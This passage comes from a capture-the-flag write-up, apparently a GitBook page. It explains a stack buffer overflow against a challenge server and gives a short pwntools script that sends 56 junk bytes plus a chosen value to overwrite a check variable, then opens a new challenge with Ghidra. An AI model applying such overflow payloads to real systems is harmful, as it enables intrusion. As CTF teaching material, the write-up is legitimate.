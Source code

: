 <figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

So we have successfully confirmed we have control over the vcalue of check. Now all we need to do is have 56 bytes of junk characters, then replace the last 4 characters (which are Bs) to the desired value. We can use `pwntools` to connect and send our input to the server and get the flag.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```python
from pwn import *

#r = process('chall')
r = remote("challs.ctf.cafe", 7777)

addr = p64(0xc0febabe) # format the bytes

junk = b'A' * 56
payload = junk + addr # combine payload
r.sendline(payload)
r.interactive()
```

### Onyo

No source code given to me. So, we can use `ghidra` to decompile and view the pseudocode for this binary in C. Viewing the `main` function, we this pseudocode:

<figure><img src="../.gitbook/assets/image (16) (5).png" alt=""><figcaption></figcaption></figure>

